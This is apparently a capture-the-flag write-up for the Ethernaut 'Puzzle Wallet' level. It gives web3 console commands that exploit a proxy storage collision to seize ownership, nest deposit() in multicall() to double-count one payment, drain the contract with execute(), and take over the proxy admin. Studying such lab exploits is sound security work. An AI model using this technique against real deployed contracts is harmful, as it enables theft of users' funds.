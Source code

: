 To solve this level we should read about **UpgradeableProxy** first. You can go through OpenZeppelin [docs](https://docs.openzeppelin.com/upgrades-plugins/1.x/proxies) for that. So a proxy forwards a call to a contract through a delegate call and thus using it’s own storage for variables. We can change the value of admin if we can call the `setMaxBalance()` and change the value of **maxBalance**. For that, first we have to get whitelisted and then we have to make the balance of the contract zero.

We can become the owner of the **PuzzleWallet** contract by setting **pendingAdmin** to our address. We somehow have to call the `proposeNewAdmin()`. We cannot directly call that function but we can send a transaction to the evm with data containning the signature of the `proposeNewAdmin()` with input as our wallet address.

```jsx
> await web3.eth.sendTransaction({from:"0x136801a295932bEcE62ef615bEFC3DE0259D565F", to:"0x6cACA6D3bBbf65feb39cC5684d1B1B7B5b295091",
data:"0xa6376746000000000000000000000000136801a295932bece62ef615befc3de0259d565f"})

> await contract.owner()
< '0x136801a295932bEcE62ef615bEFC3DE0259D565F'
```

So we are now the owner of the **PuzzleWallet** contract. Let’s whitelist our wallet address.

```jsx
> await contract.addToWhitelist("0x136801a295932bEcE62ef615bEFC3DE0259D565F")

> await web3.eth.getBalance("0x6cACA6D3bBbf65feb39cC5684d1B1B7B5b295091")
< '1000000000000000'
```

To make the balance of the contract zero we somehow have to make our balances value equal to that of the contract. But as we see the contract already have some ether. What if we call the `multicall` with data[0] as signature of `deposit()` and data[1] as signature of `multicall(deposit())`?

The recursive call will use the same `msg.val` and will deposit ether worth double the value. So if we send *1000000000000000 wei* our balance will become *2000000000000000 wei* which will be same as the balance of the contract! Then we can use the `execute()` to make the balance of the contract zero and then the `setMaxBalance()` to change the **maxBalance** value to our wallet address.

```jsx
> data0 = web3.eth.abi.encodeFunctionSignature("deposit()")

> data1 = web3.eth.abi.encodeFunctionSignature("multicall(bytes[])")

> data2 = web3.eth.abi.encodeParameter("bytes[]", data0)

> data3 = data1 + data2.substring(2) // strip 0x before adding

> await contract.multicall([data0, data3], {value:"1000000000000000"}) // calling multicall(data0, data3)

> await contract.execute("0x136801a295932bEcE62ef615bEFC3DE0259D565F", 2000000000000000, "0x")

> await contract.setMaxBalance("0x136801a295932bEcE62ef615bEFC3DE0259D565F")
```
